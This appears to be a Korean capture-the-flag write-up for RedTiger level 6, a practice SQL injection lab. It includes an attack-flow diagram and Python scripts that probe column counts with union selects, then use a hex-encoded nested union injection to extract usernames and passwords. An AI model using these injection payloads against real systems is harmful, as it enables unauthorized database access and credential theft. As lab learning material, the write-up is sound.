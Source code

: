 ================================================================================================================
[redtiger] level6
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="user=0 union select %s from level6_users--",arrowhead="normal"];
        step3 -> step2[label="Column Length",arrowhead="normal"];
        step4 -> step5[label="user=0 union select 1,@HEX,3,4,5 from level6_users-- ",arrowhead="normal"];
        step7 -> step6[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 테이블명: level6_users
- POST 파라미터: user, password

.. code-block:: sql

    SELECT * FROM tb_name where 
    user='$_POST["user"]' AND 
    password='$_POST["password"]'


|

union select
================================================================================================================

- 컬럼 개수 확인

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level6.php"
    cookies = {
        "level6login":"my_cat_says_meow_meowmeow"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "user": "0 union select %s from level6_users-- " % str(n)
        }
        print "0 union select %s from level6_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content and bef_ret!='':
            print r.content

        bef_ret = r.content


|

union select
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level6.php"
    cookies = {
        "level6login":"my_cat_says_meow_meowmeow"
    }

    # 0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20
    # ' union select 1,username,3,password,5 from level6_users where id=3 -- 
    params = {
        "user": "0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,3,4,5 from level6_users-- "
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)

    print r.content

|